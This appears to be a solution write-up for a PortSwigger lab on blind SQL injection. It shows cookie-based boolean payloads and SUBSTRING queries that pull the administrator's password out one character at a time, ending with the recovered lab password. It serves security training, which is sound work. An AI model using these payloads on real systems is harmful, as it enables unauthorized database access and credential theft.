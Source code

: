 
# Blind SQL injection with conditional responses

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

Hint: You can assume that the password only contains lowercase, alphanumeric characters.

---------------------------------------------

References: 

- https://portswigger.net/web-security/sql-injection/blind

- https://portswigger.net/web-security/sql-injection/cheat-sheet

---------------------------------------------


There is a SQL injection in the cookie:



![img](images/Blind%20SQL%20injection%20with%20conditional%20responses/1.png)

The message “Welcome back!” appears with the payload:

```
Cookie: TrackingId=WrJLQvH7F2RO6KVc'+AND+'1'='1;
```



![img](images/Blind%20SQL%20injection%20with%20conditional%20responses/2.png)

And it does not appear with:

```
Cookie: TrackingId=WrJLQvH7F2RO6KVc'+AND+'1'='0;
```



![img](images/Blind%20SQL%20injection%20with%20conditional%20responses/3.png)

To test if the first letter of the password is “s” I will send:

```
c' AND SUBSTRING((SELECT Password FROM Users WHERE Username='administrator'),1,1)='s
```

```
Cookie: TrackingId=WrJLQvH7F2RO6KVc'+AND+SUBSTRING((SELECT+Password+FROM+Users+WHERE+Username='administrator'),1,1)='s
```

I sent it to the intruder and test the length sending all the letters including “s”:



![img](images/Blind%20SQL%20injection%20with%20conditional%20responses/4.png)

So we know the first letter of the administrator's password is “s” and we can test the second letter:

```
c' AND SUBSTRING((SELECT Password FROM Users WHERE Username='administrator'),1,2)='ss
```

```
Cookie: TrackingId=WrJLQvH7F2RO6KVc'+AND+SUBSTRING((SELECT+Password+FROM+Users+WHERE+Username='administrator'),1,2)='ss
```



![img](images/Blind%20SQL%20injection%20with%20conditional%20responses/5.png)

It is better to update just the number of letter and test only one letter every time:

```
c' AND SUBSTRING((SELECT Password FROM Users WHERE Username='administrator'),1,1)='a
c' AND SUBSTRING((SELECT Password FROM Users WHERE Username='administrator'),2,1)='a
c' AND SUBSTRING((SELECT Password FROM Users WHERE Username='administrator'),3,1)='a
c' AND SUBSTRING((SELECT Password FROM Users WHERE Username='administrator'),4,1)='a
c' AND SUBSTRING((SELECT Password FROM Users WHERE Username='administrator'),5,1)='a
...
```

I continued until retrieving the password “ssmyivfjyj5m1bvch02g”.
